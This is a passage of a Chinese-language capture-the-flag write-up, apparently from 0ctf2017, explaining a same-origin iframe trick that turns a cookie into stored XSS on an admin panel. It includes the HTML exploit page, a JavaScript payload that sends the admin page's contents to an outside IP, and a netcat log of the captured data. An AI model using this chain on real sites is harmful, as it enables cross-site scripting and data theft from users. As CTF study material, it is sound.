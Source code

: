 后来，louys给了一个提示，其实是可以跨域带cookie访问的。

整个思路大体是这样，iframe两个相同的但父页面不同域的网页，这两个iframe是同域，可以互相通信，访问。

> 这里由于两个iframe的内容是同域的，虽然和父页不同域，但是根据同源策略两个iframe相互是可以访问对方的资源的

通过这种方式，我们就能在我们的页面控制在访问第二个iframe的时候时，admin带的cookei值，从而可以触发第二个页面的xss

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8">
    </head>
    <body>
     <script>
    function get()
    {
        var payload = "<script src='http://106.14.61.185/files/a.js'>"+"</s"+"cript>;";//payload所在
        document.cookie="username=" + payload + " domain=.government.vip; path=/";
        document.body.appendChild(document.createElement('iframe')).src='http://admin.government.vip:8000';
        //location.href = "http://admin.government.vip:8000/";
    }
    </script>
      <iframe src="http://admin.government.vip:8000" onload="get()"></iframe>
    </body>
</html>
```

a.js

```js
location.href = "http://106.14.61.185:8080/date.php?xss="+escape(window.top.frames[0].document.documentElement.innerHTML)
```

可以打到admin页面的数据（这里打到的是第一个frame的数据）

```http
[root@iZuf6ct8pmbo8u22rq5e5oZ ~]# nc -l 8080
GET /date.php?xss=%3Chead%3E%0A%3Ctitle%3EAdmin%20Panel%3C/title%3E%0A%3Cscript%3E%0A//sandbox%0Adelete%20window.Function%3B%0Adelete%20window.eval%3B%0Adelete%20window.alert%3B%0Adelete%20window.XMLHttpRequest%3B%0Adelete%20window.Proxy%3B%0Adelete%20window.Image%3B%0Adelete%20window.postMessage%3B%0A%3C/script%3E%0A%3C/head%3E%0A%0A%3Cbody%3E%3Ch1%3EHello%20admin%3C/h1%3E%0A%0A%0A%3Cp%3EUpload%20your%20shell%3C/p%3E%0A%3Cform%20action%3D%22/upload%22%20method%3D%22post%22%20enctype%3D%22multipart/form-data%22%3E%0A%3Cp%3E%3Cinput%20type%3D%22file%22%20name%3D%22file%22%3E%3C/p%3E%0A%3Cp%3E%3Cinput%20type%3D%22submit%22%20value%3D%22upload%22%3E%0A%3C/p%3E%3C/form%3E%0A%3C/body%3E HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://admin.government.vip:8000/
User-Agent: Mozilla/5.0 Chrome(phantomjs) for 0ctf2017 by md5_salt
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: 106.14.61.185:8080
```
